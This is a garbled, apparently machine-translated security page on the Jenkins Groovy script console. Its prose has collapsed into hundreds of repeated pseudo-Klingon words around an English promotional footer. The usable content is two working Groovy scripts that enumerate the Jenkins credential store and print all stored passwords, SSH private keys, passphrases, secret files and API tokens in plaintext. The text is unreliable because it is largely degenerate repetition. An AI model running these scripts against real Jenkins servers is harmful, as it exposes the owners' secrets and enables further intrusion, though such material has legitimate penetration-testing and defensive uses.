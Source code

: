 # Jenkins qo'noSqa' Groovy Script console laH

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>DaH jImej</strong></a><strong>!</strong></summary>

HackTricks ni qapla'! yI'el:

* **Qapla'** **HackTricks** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **ghItlhmeH** **
```java
// From https://www.dennisotugo.com/how-to-view-all-jenkins-secrets-credentials/
import jenkins.model.*
import com.cloudbees.plugins.credentials.*
import com.cloudbees.plugins.credentials.impl.*
import com.cloudbees.plugins.credentials.domains.*
import com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey
import org.jenkinsci.plugins.plaincredentials.StringCredentials
import org.jenkinsci.plugins.plaincredentials.impl.FileCredentialsImpl

def showRow = { credentialType, secretId, username = null, password = null, description = null ->
println("${credentialType} : ".padLeft(20) + secretId?.padRight(38)+" | " +username?.padRight(20)+" | " +password?.padRight(40) + " | " +description)
}

// set Credentials domain name (null means is it global)
domainName = null

credentialsStore = Jenkins.instance.getExtensionList('com.cloudbees.plugins.credentials.SystemCredentialsProvider')[0]?.getStore()
domain = new Domain(domainName, null, Collections.<DomainSpecification>emptyList())

credentialsStore?.getCredentials(domain).each{
if(it instanceof UsernamePasswordCredentialsImpl)
showRow("user/password", it.id, it.username, it.password?.getPlainText(), it.description)
else if(it instanceof BasicSSHUserPrivateKey)
showRow("ssh priv key", it.id, it.passphrase?.getPlainText(), it.privateKeySource?.getPrivateKey()?.getPlainText(), it.description)
else if(it instanceof StringCredentials)
showRow("secret text", it.id, it.secret?.getPlainText(), '', it.description)
else if(it instanceof FileCredentialsImpl)
showRow("secret file", it.id, it.content?.text, '', it.description)
else
showRow("something else", it.id, '', '', '')
}

return
```
#### yIbuS: 

```klingon
# Jenkins - groovy vIqro' 'ej vItlhutlh

## vItlhutlh

Jenkins vItlhutlh vaj vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhut
```java
import java.nio.charset.StandardCharsets;
def creds = com.cloudbees.plugins.credentials.CredentialsProvider.lookupCredentials(
com.cloudbees.plugins.credentials.Credentials.class
)

for (c in creds) {
println(c.id)
if (c.properties.description) {
println("   description: " + c.description)
}
if (c.properties.username) {
println("   username: " + c.username)
}
if (c.properties.password) {
println("   password: " + c.password)
}
if (c.properties.passphrase) {
println("   passphrase: " + c.passphrase)
}
if (c.properties.secret) {
println("   secret: " + c.secret)
}
if (c.properties.secretBytes) {
println("    secretBytes: ")
println("\n" + new String(c.secretBytes.getPlainData(), StandardCharsets.UTF_8))
println("")
}
if (c.properties.privateKeySource) {
println("   privateKey: " + c.getPrivateKey())
}
if (c.properties.apiToken) {
println("   apiToken: " + c.apiToken)
}
if (c.properties.token) {
println("   token: " + c.token)
}
println("")
}
```
<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
